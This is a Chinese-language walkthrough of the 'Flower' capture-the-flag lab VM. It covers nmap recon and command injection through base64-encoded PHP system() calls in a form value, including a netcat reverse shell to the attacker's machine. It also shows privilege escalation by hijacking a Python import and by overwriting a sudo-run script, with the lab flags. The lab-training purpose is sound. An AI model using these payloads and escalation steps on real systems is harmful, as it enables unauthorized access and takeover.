

# Flower

:::note

[Linux VM] [Tested on VirtualBox] created by || alienum

⏲️ Release Date // 2020-12-01

✔️ MD5 // 83814c761c7d8042d6e5be77efdd73c5

☠ Root // 179

💀 User // 179

📝Notes //
No need overthinking, it's straightforward.

:::

## 靶机启动


靶机 IP：

```plaintext
192.168.56.114
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.114
Host is up (0.00047s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:02:B0:39 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
```

## 探测 web 服务

尝试直接访问


通过对页面源码进行分析，发现以下语句

```html
<option name="Lily" value="MSsy">Lily</option>
<option name="Buttercup" value="Misz">Buttercup</option>
<option name="Delphiniums" value="Mys1">Delphiniums</option>
<option name="Cineraria" value="NSs4">Cineraria</option>
<option name="Chicory" value="OCsxMw==">Chicory</option>
<option name="Chrysanthemum" value="MTMrMjE=">Chrysanthemum</option>
<option name="Michaelmas daisies" value="MjErMzQ=">Michaelmas daisies</option>
```

`value` 参数点比较有趣，发现其为 base64 编码后的计算表达式，那么就可能存在命令执行的可能

尝试使用 php 常见的 `system` 函数进行命令执行

```plaintext
system('ls') --base64--> c3lzdGVtKCdscycp
```


发现确实存在命令执行漏洞，尝试反弹 shell

```plaintext
system('nc -e /bin/sh 192.168.56.102 9999') --base64--> c3lzdGVtKCduYyAtZSAvYmluL3NoIDE5Mi4xNjguNTYuMTAyIDk5OTknKQ==
```



成功得到反弹的 shell

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[12:15:56] Welcome to pwncat 🐈!                                                                                                                         __main__.py:164
[12:17:08] received connection from 192.168.56.114:43236                                                                                                      bind.py:84
[12:17:09] 0.0.0.0:9999: upgrading from /usr/bin/dash to /usr/bin/bash                                                                                    manager.py:957
           192.168.56.114:43236: registered new host w/ db                                                                                                manager.py:957
(local) pwncat$ back

(remote) www-data@flower:/var/www/html$  whoami
www-data
```

## 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for www-data on flower:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on flower:
    (rose) NOPASSWD: /usr/bin/python3 /home/rose/diary/diary.py
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/newgrp
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

## 尝试提权

可以发现，`rose` 可以无密码执行一个 python 脚本，并且脚本所在目录是可以控制的，于是尝试写入反弹 shell

```python
import os;os.system('/bin/bash')
```

然后将 payload 写入 `pickle.py` 文件，使得 `import` 的时候可以被控制

```shell
echo "import os;os.system('/bin/bash')" > pickle.py
```

然后开始利用

```shell
(remote) www-data@flower:/home/rose/diary$ ls -lh
total 8.0K
-rw-r--r-- 1 rose     rose     147 Nov 30  2020 diary.py
-rw-r--r-- 1 www-data www-data  33 Dec 29 03:22 pickle.py
(remote) www-data@flower:/home/rose/diary$ sudo -u rose /usr/bin/python3 /home/rose/diary/diary.py
rose@flower:~/diary$ whoami
rose
```

## user pwned

```shell
rose@flower:~$ cat user.txt
HMV{R0ses_are_R3d$}
```

## 进一步提权探测

```plaintext title="sudo -l"
Matching Defaults entries for rose on flower:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User rose may run the following commands on flower:
    (root) NOPASSWD: /bin/bash /home/rose/.plantbook
```

查看文件的内容

```shell
#!/bin/bash
echo Hello, write the name of the flower that u found
read flower
echo Nice, $flower submitted on : $(date)
```

## 进一步尝试提权

虽然 `/home/rose/.plantbook` 文件不具有写入权限，但是其所有权是 `rose` 用户，所以可以直接修改文件权限后直接编辑

```shell
#!/bin/bash
/bin/bash
```

用 poc 覆盖原本 `/home/rose/.plantbook` 的文件内容，然后利用

```shell
rose@flower:~$ sudo /bin/bash /home/rose/.plantbook
root@flower:/home/rose# whoami
root
```

## root pwned

```shell
root@flower:~# cat root.txt 
HMV{R0ses_are_als0_black.}
```
